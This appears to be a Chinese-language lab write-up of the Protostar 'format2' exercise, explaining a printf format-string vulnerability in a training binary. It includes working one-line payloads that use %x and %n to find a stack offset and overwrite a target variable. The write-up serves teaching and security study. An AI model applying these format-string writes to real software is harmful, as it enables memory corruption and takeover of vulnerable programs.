 ```shell
$ python -c 'print "\xe4\x96\x04\x08" * 10 + "%08x" * 3 + "%08n"' | ./format2 
...
you have modified the target :)
```

<img src=".\format2-result.png" style="zoom:67%;" />



## 原理分析

分析源码：

```c
fgets(buffer, sizeof(buffer), stdin); // 不存在缓冲区溢出漏洞
```

我们要利用的漏洞仍然是`printf()`的读写漏洞。

<img src="D:\个人文件夹\template\大三下\计算机系统安全\Protostar\Format0-2\format2-analysis-1.png" style="zoom:67%;" />

同Format1，关键点仍然在于计算*string到输入`buffer`的偏移值。

```shell
$ objdump -t format2 | grep target # 查看target的地址
```

<img src=".\format2-analysis-2.png" style="zoom:67%;" />

先尝试利用`printf()`读取较多的栈上内容，计算从栈顶*string到输入`buffer`的偏移值。

```shell
$ python -c 'print "DDDD" + "%08x." * 10' | ./format2 # 计算出偏移值为3DWORD
```

<img src=".\format2-analysis-3.png" style="zoom:67%;" />

利用偏移值，将target的地址填入，让target对齐我们要进行写入的位置。

```shell
$ python -c 'print "\xe4\x96\x04\x08" + "%08x" * 3 + "%08x"' | ./format2 # # 
```

<img src=".\format2-analysis-4.png" style="zoom:67%;" />
